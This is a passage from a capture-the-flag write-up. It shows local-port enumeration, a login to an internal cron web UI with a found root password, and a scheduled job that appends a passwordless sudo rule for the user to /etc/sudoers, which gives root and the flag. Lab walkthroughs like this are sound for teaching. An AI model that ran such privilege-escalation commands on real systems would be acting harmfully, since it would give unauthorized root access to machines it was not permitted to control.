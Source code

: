 `enzo@planning:/$ ss -tupln`

Where:
```
-t TCP

-u UDP

-p processes

-l listening sockets

-n numeric
```

And this is the output:

```
Netid       State        Recv-Q       Send-Q               Local Address:Port                Peer Address:Port       Process       
udp         UNCONN       0            0                       127.0.0.54:53                       0.0.0.0:*                        
udp         UNCONN       0            0                    127.0.0.53%lo:53                       0.0.0.0:*                        
tcp         LISTEN       0            511                      127.0.0.1:8000                     0.0.0.0:*                        
tcp         LISTEN       0            4096                     127.0.0.1:3000                     0.0.0.0:*                        
tcp         LISTEN       0            4096                    127.0.0.54:53                       0.0.0.0:*                        
tcp         LISTEN       0            4096                     127.0.0.1:35403                    0.0.0.0:*                        
tcp         LISTEN       0            70                       127.0.0.1:33060                    0.0.0.0:*                        
tcp         LISTEN       0            511                        0.0.0.0:80                       0.0.0.0:*                        
tcp         LISTEN       0            151                      127.0.0.1:3306                     0.0.0.0:*                        
tcp         LISTEN       0            4096                 127.0.0.53%lo:53                       0.0.0.0:*                        
tcp         LISTEN       0            4096                             *:22                             *:*                    
```

We have a service at `127.0.0.1:8000`. It ask me for username and password. By using `root/P4ssw0rdS0pRi0T3c` I am able to access to the Cronotab UI.

Once logged in, We can see the two processes that were saved inside `/opt/crontabs/crontab.db`. So I decided to create a new job. And with this new job I want to give a power up to Enzo, so lets insert this:

`echo "enzo ALL=(ALL) NOPASSWD:ALL" >> /etc/sudoers`

Save the job and lets run it. If we now try to execute the `sudo` command from Enzo ssh connection we will operate as root and we can easily retrive the root flag.

```
enzo@planning:/$ sudo -i
root@planning:~# ls
root.txt  scripts
root@planning:~# cat root.txt 
ac409d9615f0a65f9fee88bbd7000e59
```


